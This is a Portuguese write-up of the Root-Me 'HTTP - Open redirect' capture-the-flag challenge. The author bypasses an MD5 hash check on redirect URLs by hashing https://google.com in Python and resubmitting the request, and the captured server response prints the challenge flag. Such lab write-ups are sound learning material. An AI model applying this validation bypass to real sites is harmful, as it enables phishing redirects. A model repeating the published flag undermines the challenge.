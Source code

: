 ## HTTP - Open redirect 

Checando o código fonte, inspecionando elemento ou copiando o link, encontramos:

  - https://facebook.com&h=a023cfbf5f1c39bdf8407f28b60cd134

  - https://twitter.com&h=be8b09f7f1f66235a9c91986952483f0

  - https://slack.com&h=e52dc719664ead63be3d5066c135b6da

A validação é feita por meio de hash MD5:

<pre>root@kali:~# hash-identifier
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------
 HASH: a023cfbf5f1c39bdf8407f28b60cd134

Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))</pre>

É possível capturar a requisição com [Burp Suit](https://portswigger.net/burp) ou com a extensão [HTTP Header Live](https://addons.mozilla.org/pt-BR/firefox/addon/http-header-live/) de firefox, edita-la e fazer o reenvio:

Podemos gerar o hash md5 de https://google.com, enviar e olhar a resposta da requisição com Burp Suit:

<pre>root@kali:~# python2.7
Python 2.7.17 (default, Oct 19 2019, 23:36:22)
[GCC 9.2.1 20191008] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> import md5
>>> md5.new('https://google.com').digest().encode('hex')
'99999ebcfdb78df077ad2727fd00969f'</pre>

## Resposta

http://challenge01.root-me.org/web-serveur/ch52/?url=https://google.com&h=99999ebcfdb78df077ad2727fd00969f

<pre>HTTP/1.1 200 OK
Server: nginx
Date: Thu, 30 Jan 2020 20:03:20 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Vary: Accept-Encoding
Content-Length: 1027

<!DOCTYPE html>
<html>
<head>
        <title>HTTP - Open redirect</title>
</head>


<body><link rel='stylesheet' property='stylesheet' id='s' type='text/css' href='/template/s.css' media='all' /><iframe id='iframe' src='https://www.root-me.org/?page=externe_header'></iframe>
        <p>Well done, the flag is e6f8a530811d5a479812d7b82fc1a5c5</p><script>document.location = 'https://google.com';</script></pre>
